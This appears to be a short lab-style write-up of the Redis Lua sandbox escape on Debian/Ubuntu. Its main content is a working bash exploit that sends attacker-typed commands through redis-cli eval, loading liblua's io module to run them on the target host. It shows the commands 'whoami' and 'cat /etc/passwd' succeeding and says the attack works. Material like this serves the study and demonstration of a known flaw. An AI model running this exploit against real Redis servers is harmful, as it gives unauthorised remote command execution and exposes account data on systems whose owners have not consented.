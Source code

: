 # Attack Details of a Cloud Case

## Background 

Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.

Reginaldo Silva discovered that due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scripts could possibly escape the Lua sandbox and execute arbitrary code on the host.

## Story

When a redis server is connected to a network, an attacker exploits to server with redis-cli package in attacker environment and when liblua package in the redis server. Attacker uses root command "cat /etc/passwd" to gain accounts and its passwords.

### Exploiting
Attacker exploits the server with this shell script to call liblua package to execute commands with root privilege. While loop is used to skip steps for calling liblua package.

```#!/bin/bash
echo "Input redis IP:"
read IP
echo "Input redis PORT:"
read PORT

while :
do
        echo "Input commnad:"
        echo "Press [CTRL+C] to stop..."
        echo -n  ">>"
        read commands
        echo ""
        redis-cli -h $IP -p $PORT eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("'"$commands"'", "r"); local res = f:read("*a"); f:close(); return res' 0
        echo ""
done
```
When attacker type "whoami" and "cat /etc/passwd" in shell script:

![whoami](images/whoami.png)

When server admin type "whoami" and  "cat /etc/passwd": in redis server:

![server](images/server.png)

There is no difference, so the attack is working well.
